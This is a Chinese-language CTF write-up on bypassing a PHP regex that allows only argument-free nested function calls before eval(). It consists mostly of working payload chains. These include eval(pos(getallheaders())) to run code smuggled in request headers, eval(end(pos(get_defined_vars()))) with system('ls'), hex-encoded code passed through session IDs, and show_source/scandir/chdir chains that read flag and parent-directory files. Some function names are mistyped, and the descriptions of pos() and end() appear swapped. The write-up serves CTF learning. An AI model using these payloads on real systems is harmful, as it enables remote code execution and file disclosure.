# 题目

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) { 
	//符合要求的字符串例如function()会被替换为空，然后preg_replace为空返回一个;
    eval($_GET['code']);
}
?>
```
**`/[^\W]+\((?R)?\)/`**
- `[^\W]+` - 匹配**一个或多个**字母、数字、下划线（等价于 `\w+`）
    - `\W` 表示非单词字符
    - `[^\W]` 表示非"非单词字符"，即单词字符
    - `+` 表示一个或多个
- `\(` - 匹配左括号 `(`
- `(?R)?` - **递归匹配**整个模式（可选）
    - `(?R)` 表示递归整个正则表达式
    - `?` 表示递归部分是可选的
- `\)` - 匹配右括号 `)`
符合要求的字符串等如下
- `function()` - 简单函数调用
- `function1(function2())` - 嵌套函数调用
- `a(b(c(d())))` - 多层嵌套调用
- ==(括号里不能有参数，如果括号里有东西只能是： 非特殊字符(),但最终最里面的括号是干净的没有东西的如`a(b(c(d())))`    )==


# 请求头绕过(php7.3)
```
getallheaders()
apache_request_headers()
这两个函数的功能完全相同：都是用来获取当前 HTTP 请求的所有头信息（Headers），并以关联数组的形式返回。
```

- 测试一下，phpinfo(),这里phpinfo()为无参数函数符合正则匹配，自动替换为空，preg_replace函数返回;符合if条件执行eval函数。

- 使用`getallheaders()`
	由于eval函数是无回显的所有没有输出
- 使用print_r函数打印结果`prnt_r(getallheaders())` 
- ==pos()与end()==
	- pos()==返回headers的最后一行==
	- end()==返回headers的第一行==
- 修改headers参数实现命令执行
	- `print_r(pos(getheaders()))`
			- 返回u=0,i
	- eval配合修改改行实现命令执行==`eval(pos(getallheaders()));`==
- 同理==`eval(pos(apache_request_headers()));`==也可实现相同效果
# 利用全局变量绕过(php5/php7)
```
get_defined_vars()
- 返回所有已定义变量的关联数组
- 包括超全局变量、用户自定义变量等所有当前可用的变量  
- 不需要任何参数
  
返回值结构
Array
(
    [GLOBALS] => Array &$GLOBALS
    [_GET] => Array()
    [_POST] => Array() 
    [_COOKIE] => Array()
    [_FILES] => Array()
    [_SERVER] => Array()
    [_ENV] => Array()
    [_REQUEST] => Array()
    [自定义变量] => 值
    // ... 其他变量
)
```
**示例**
```php
<?php
$name = "John";
$age = 25;
$city = "New York";

$all_vars = get_defined_vars();

echo "<pre>";
print_r($all_vars);
echo "</pre>";
?>
```
输出示例
```
Array
(
    [GLOBALS] => Array &$GLOBALS
    [_GET] => Array()
    [_POST] => Array()
    [_COOKIE] => Array()
    [_FILES] => Array()
    [_SERVER] => Array( ... )
    [_ENV] => Array()
    [_REQUEST] => Array()
    [name] => John
    [age] => 25
    [city] => New York
)
```

**`print_r(get_defined_vars());`**
从浏览器源代码查看更直观
- 只获取第一项GET`print_r(pos(get_defined_vars())); `
- ==设置不存在参数使其被装填进get数组里==
- 获取第二行参数cmd ==cmd在最后一行，使用end函数==`print_r(end(pos(get_defined_vars())));&cmd=system('ls');`
- 执行这一行的函数，将print_r函数替换为eval函数`eval(end(pos(get_defined_vars())));&cmd=system('ls');`
**梳理一下**
	传入一个不存在的get参数，此参数会先被get数组里，然后利用end与pos函数对get_defined_var函数返回结果进行获取，利用print_r函数打印方便调整，当输出为理想命令时将打印函数替换为代码执行函数eval即可。

# session绕过(php5)
```
session_star()
启动新会话或使用现有会话，成功开始返回TRUE，反之返回FALSE。
session_id()
获取Session ID：返回当前会话的唯一标识符
```

- 打印session_id
- 读取内容==show_source==读取文件内容
- 代码执行
	- PHPSESSIONID，需要十六进制编码！
	- 读取sessionid时需要使用hex2bin对其进行解码
	- 解码后由代码执行函数进行执行
	- `eval(hex2bin(session_id(session_start())));`
	- 执行system('ls'); 编码后73797374656d28276c7327293bD
#  scandir等相关函数读取文件

```php
<?php
// 目录和文件操作函数
echo "=== 目录和文件操作函数 ===\n";

// 1. scandir() - 列出指定路径中的文件和目录
$files = scandir('.');
echo "scandir('.'): "; print_r($files);

// 2. getcwd() - 取得当前工作目录  
echo "getcwd(): " . getcwd() . "\n";

// 3. chdir() - 改变当前工作目录
chdir('/tmp');
echo "after chdir('/tmp'): " . getcwd() . "\n";

// 数组操作函数
echo "\n=== 数组操作函数 ===\n";

// 4. current() - 返回数组中的当前值
$array1 = ['a', 'b', 'c'];
echo "current(['a','b','c']): " . current($array1) . "\n";

// 5. next() - 将数组内部指针向前移动
next($array1);
echo "after next(): " . current($array1) . "\n";

// 6. array_reverse() - 返回单元顺序相反的数组
$array2 = [1, 2, 3];
echo "array_reverse([1,2,3]): "; print_r(array_reverse($array2));

// 7. array_flip() - 交换数组中的键和值
$array3 = ['a' => 1, 'b' => 2];
echo "array_flip(['a'=>1,'b'=>2]): "; print_r(array_flip($array3));

// 8. array_rand() - 从数组中随机取出一个或多个随机键
$array4 = ['red', 'green', 'blue'];
echo "array_rand(['red','green','blue']): " . array_rand($array4) . "\n";

// 字符串和加密函数
echo "\n=== 字符串和加密函数 ===\n";

// 9. strrev() - 用于反转给定的字符串
echo "strrev('hello'): " . strrev('hello') . "\n";

// 10. crypt() - 用来加密
echo "crypt('password'): " . crypt('password') . "\n";

// 11. hebrevc() - 把希伯来文本从右至左的流转换为左至右的流
echo "hebrevc('שלום'): " . hebrevc('שלום') . "\n";

// 在CTF中的组合使用示例
echo "\n=== CTF 组合使用示例 ===\n";

// 读取当前目录并获取第一个文件
chdir(getcwd()); // 回到原始目录
$all_files = scandir('.');
echo "第一个文件: " . current($all_files) . "\n";
echo "最后一个文件: " . current(array_reverse($all_files)) . "\n";

// 使用array_flip和array_rand随机获取文件
$flipped = array_flip($all_files);
echo "随机文件键: " . array_rand($flipped) . "\n";

localeconv() 由于返回的数组包含 '.'，可以用来构造目录遍历

getcwd()查看读取当前目录

chdir()切换目录 成功返回1失败返回0
?>
```

```
=== 目录和文件操作函数 ===
scandir('.'): Array ( [0] => . [1] => .. [2] => index.php [3] => flag.txt [4] => config.ini ) 
getcwd(): /var/www/html
after chdir('/tmp'): /tmp

=== 数组操作函数 ===
current(['a','b','c']): a
after next(): b
array_reverse([1,2,3]): Array ( [0] => 3 [1] => 2 [2] => 1 )
array_flip(['a'=>1,'b'=>2]): Array ( [1] => a [2] => b )
array_rand(['red','green','blue']): 1

=== 字符串和加密函数 ===
strrev('hello'): olleh
crypt('password'): $1$somehash
hebrevc('שלום'): םולש

=== CTF 组合使用示例 ===
第一个文件: .
最后一个文件: config.ini
随机文件键: flag.txt
```
#### 小例题
**获取点·**
- localeconv()
- `print_r(pos(localeconv()));或print_r(current(localeconv()));`
**扫描当前目录下存在什么文件scandir()**
- `print_r(scandir(current(localeconv())));`
**读取flag**
- `show_source(end(scandir(current(localeconv()))));`获取
- `show_source(current(array_reverse(scandir(current(localeconv())))));`
- `show_source(pos(array_reverse(scandir(current(localeconv())))));`

**获取当前目录绝对路径getcwd**

**==查看上级目录==**
- `print_r(dirname(getcwd()));`
- 查看上级目录中的文件==此时仍在当前目录==
- ==读取上级目录文件（需要切换到上级目录）==
	- 上级目录结构，此时没有切换到上级目录 
	- 切换到上级目录返回1说明切换目录成功
	- `print_r(dirname(chdir(dirname(getcwd()))));` ==`print_r(scandir(chdir(dirname(getcwd()))));是错误的，需要先dirname如上`==
	- `print_r(scandir(dirname(chdir(dirname(getcwd())))));` 
	- 读取info.php
		- `show_source(end(scandir(dirname(chdir(dirname(getcwd()))))));`
		- `show_source(current(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))));`
		-  `show_source(pos(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))));`
		- array_rand()和array_filp()==适用场景，当文件下目标读取文件不在第一位或最后一位==，此办法可以==随机==读取当前目录下任意文件，这里读取index.html文件不在第一位也不在最后一位
